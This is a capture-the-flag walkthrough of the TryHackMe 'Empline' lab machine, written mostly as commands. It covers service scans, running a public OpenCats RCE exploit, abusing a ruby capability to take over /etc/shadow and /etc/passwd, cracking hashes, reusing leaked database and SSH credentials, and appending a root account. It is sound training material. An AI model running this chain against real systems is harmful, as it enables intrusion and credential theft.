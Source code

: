 # Empline

**Room Link:** [https://tryhackme.com/room/empline](https://tryhackme.com/room/empline)

### **Scans** <a href="#scans" id="scans"></a>

Initial scan

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Longer scan

**Kali**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## **TCP/80 - HTTP**

**Kali**

```
gobuster dir --url http://$VICTIM/ -w /usr/share/dirb/wordlists/big.txt -l
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
echo "$VICTIM job.empline.thm" >> /etc/hosts
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Initial Shell

OpenCats 0.9.4 has a RCE exploit.

Exploit: [https://www.exploit-db.com/raw/50585](https://www.exploit-db.com/raw/50585)

**Kali**

```
chmod +x exploit.sh 
./exploit.sh 
./exploit.sh http://job.empline.thm/
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
getcap -r / 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
ls -lah /etc/shadow
ruby -e 'require "fileutils"; FileUtils.chown("www-data", "www-data", "/etc/shadow")'
ls -lah /etc/shadow
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

Now that we can read both f these files we can transfer them to Kali. I let this run for a while but it wasn't cracking any hashes.

```
cat /etc/passwd
cat /etc/shadow
```

**Kali**

```
unshadow passwd shadow > passwords.txt
```

**Kali**

```
john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt
```

I went back to the check the box and found the database credentials&#x20;

**Victim**

```
find / -name "config.php"
cat /var/www/opencats/config.php 
```

<figure><img src="../../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
mysql -h $VICTIM -u james -png6pUFvsGNtw  
```

**Kali(mysql)**

```
show databases;
use opencats
show tables;  
select * from user;  
```



There were a few hashes from users so I put them in crackstation and one returned a result.

<figure><img src="../../.gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

## **TCP/22 - SSH**

**Kali**

```
ssh george@$VICTIM
Password: pretonnevippasempre
```



## Privilege Escalation

Since I had access to change any file already I just added a new root user to passwd

**Victim**

```
ruby -e 'require "fileutils"; FileUtils.chown("george", "george", "/etc/passwd")'
echo 'new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash' >> /etc/passwd
su new
Password: 123
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1).png" alt=""><figcaption></figcaption></figure>
